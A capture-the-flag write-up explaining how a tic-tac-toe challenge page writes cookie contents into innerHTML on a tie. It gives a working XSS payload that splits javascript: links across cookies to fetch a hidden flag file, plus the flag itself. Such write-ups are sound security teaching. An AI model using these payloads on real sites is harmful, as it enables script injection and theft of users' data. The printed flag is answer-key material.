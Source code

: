 ### Solution

Source: [tic.js](https://nvstgt.com/Quantity/static/tic.js)

```js
// Function called whenever user tab on any box
async function checkCookie(secret) { 
  	let msg = "Despite My Best Efforts To The Contrary... It Turns Out I've Won."; 
	document.cookie = msg;
}
...
// Checking of Player 0 finish
// Here, Checking about Tie
else if ((b1 == 'X' || b1 == '0') && (b2 == 'X'
	|| b2 == '0') && (b3 == 'X' || b3 == '0') &&
	(b4 == 'X' || b4 == '0') && (b5 == 'X' ||
	b5 == '0') && (b6 == 'X' || b6 == '0') &&
	(b7 == 'X' || b7 == '0') && (b8 == 'X' ||
	b8 == '0') && (b9 == 'X' || b9 == '0')) {
		checkCookie(document.cookie);
   		window.alert('Match Tie');
    	document.getElementById('print').innerHTML = document.cookie;
}
```

If there's tie `print` html element is assigned `document.cookie` and `innerHTML` is direct XSS.

I wasnt able to put whole payload inside the cookie, so I split payload into chunks.

Verbose Payload: 
```js
var xhr = new XMLHttpRequest();
xhr.open(`GET`, `https://nvstgt.com/Quantity/.secret/flag.txt`);
xhr.onload = () => console.log(xhr.response);
xhr.send();
```

Payload:

```js
document.cookie='1=<a href="javascript:var xhr=new XMLHttpRequest()">Payload 1</a>';
document.cookie='2=<a href="javascript:xhr.open(`GET`,`https://nvstgt.com/Quantity/.secret/flag.txt`)">Payload 2</a>';
document.cookie='3=<a href="javascript:xhr.onload=()=>console.log(xhr.response)">Payload 3</a>';
document.cookie='4=<a href="javascript:xhr.send()">Payload 4</a>';
// Win automatically
b1.click();b4.click();b2.click();b5.click();b6.click();b3.click();b7.click();b8.click();b9.click();
```

Clicking `a` tags in order `console.log` should appear: `poctf{uwsp_1_h4v3_70_1n5157}`

> Flag: poctf{uwsp_1_h4v3_70_1n5157}
{: .prompt-tip }